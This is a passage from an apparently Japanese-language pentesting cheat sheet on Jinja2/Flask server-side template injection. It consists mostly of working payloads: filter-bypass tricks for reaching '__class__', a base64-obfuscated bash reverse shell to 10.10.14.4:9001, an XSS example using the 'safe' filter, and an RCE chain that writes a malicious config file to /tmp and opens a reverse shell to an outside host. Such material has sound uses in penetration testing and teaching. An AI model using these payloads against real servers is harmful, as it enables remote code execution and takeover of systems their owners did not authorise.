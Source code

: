 ```bash
request|attr(request.headers.c) #Send a header like "c: __class__" (any trick using get params can be used with headers also)
request|attr(request.args.c) #Send a param like "?c=__class__
request|attr(request.query_string[2:16].decode() #Send a param like "?c=__class__
request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join) # Join list to string
http://localhost:5000/?c={{request|attr(request.args.f|format(request.args.a,request.args.a,request.args.a,request.args.a))}}&f=%s%sclass%s%s&a=_ #Formatting the string from get params

## Lists without "[" and "]"
http://localhost:5000/?c={{request|attr(request.args.getlist(request.args.l)|join)}}&l=a&a=_&a=_&a=class&a=_&a=_

# Using with

{% raw %}
{% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo -n YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC40LzkwMDEgMD4mMQ== | base64 -d | bash")["read"]() %} a {% endwith %}
{% endraw %}




```
* [**グローバルオブジェクトにアクセスするためのさらなるオプションに戻る**](jinja2-ssti.md#accessing-global-objects)
* [**オブジェクトクラスにアクセスするためのさらなるオプションに戻る**](jinja2-ssti.md#recovering-less-than-class-object-greater-than)
* [**オブジェクトクラスなしでRCEを取得するには、これを読む**](jinja2-ssti.md#jinja-injection-without-less-than-class-object-greater-than)

**HTMLエンコーディングを避ける**

デフォルトでは、Flaskはセキュリティ上の理由からテンプレート内のすべてをHTMLエンコードします：
```python
{{'<script>alert(1);</script>'}}
#will be
&lt;script&gt;alert(1);&lt;/script&gt;
```
**`safe`** フィルターを使用すると、次のように、JavaScriptやHTMLをページに**HTMLエンコードされずに**注入することができます：
```python
{{'<script>alert(1);</script>'|safe}}
#will be
<script>alert(1);</script>
```
**悪意のある設定ファイルを書き込むことによるRCE。**
```python
# evil config
{{ ''.__class__.__mro__[1].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }}

# load the evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}

# connect to evil host
{{ config['RUNCMD']('/bin/bash -c "/bin/bash -i >& /dev/tcp/x.x.x.x/8000 0>&1"',shell=True) }}
```
## 複数の文字なし
